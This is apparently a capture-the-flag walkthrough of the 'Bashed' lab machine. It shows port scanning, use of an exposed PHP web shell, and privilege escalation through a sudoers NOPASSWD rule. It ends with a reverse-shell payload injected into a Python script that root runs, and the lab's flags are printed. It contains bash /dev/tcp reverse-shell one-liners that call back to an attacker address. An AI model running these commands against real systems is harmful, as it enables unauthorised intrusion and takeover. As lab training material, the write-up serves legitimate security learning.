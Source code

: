 # Bashed

## SYN Scan
```
nmap -sS -sV -O -p- -v -Pn -T4 -oA nmap/full_syn 10.10.10.68

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## PHP Web SHELL
![blog](./screenshots/blog.png)

![dev](./screenshots/dev.png)

![phpbash](./screenshots/phpbash.png)

## The User Flag
```
www-data@bashed
:/home/arrexel# ls -l

total 4
-r--r--r-- 1 arrexel arrexel 33 Dec 4 2017 user.txt
```

```
www-data@bashed
:/home/arrexel# cat user.txt

2c281f318555dbc1b856957c7147bfc1
```

## sudoers NOPASSWD Rule
```
www-data@bashed
:/home/arrexel# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

## Privilege Escalation (scriptmanager)
`(scriptmanager : scriptmanager) NOPASSWD: ALL` sudoers rule allows `www-data` to execute command as `scriptmanager` user.

```
sudo -H -u scriptmanager bash -c 'exec bash -i &>/dev/tcp/10.10.14.11/8888 <&1'
```

```
(remote) scriptmanager@bashed:/$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

## Privilege Escalation (root)
root user executes `test.py` which outputs to `test.txt`.

```
(remote) scriptmanager@bashed:/scripts$ ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Mar 27 12:44 test.txt
```

```
(remote) scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

```
(remote) scriptmanager@bashed:/scripts$ cat test.txt
testing 123!
```

Edit test.py and inject reverse shell payload.

```
import os
os.system("bash -c 'exec bash -i &>/dev/tcp/10.10.14.11/6666 <&1'")
```

Done.

```
(remote) root@bashed:/$ id
uid=0(root) gid=0(root) groups=0(root)
```

## The Root Flag
```
(remote) root@bashed:/$ ls -la /root/
total 32
drwx------  3 root root 4096 Dec  4  2017 .
drwxr-xr-x 23 root root 4096 Dec  4  2017 ..
-rw-------  1 root root    1 Dec 23  2017 .bash_history
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Dec  4  2017 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Dec  4  2017 root.txt
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
```

```
(remote) root@bashed:/$ cat /root/root.txt
cc4f0afe3a1026d402ba10329674a8e2
```
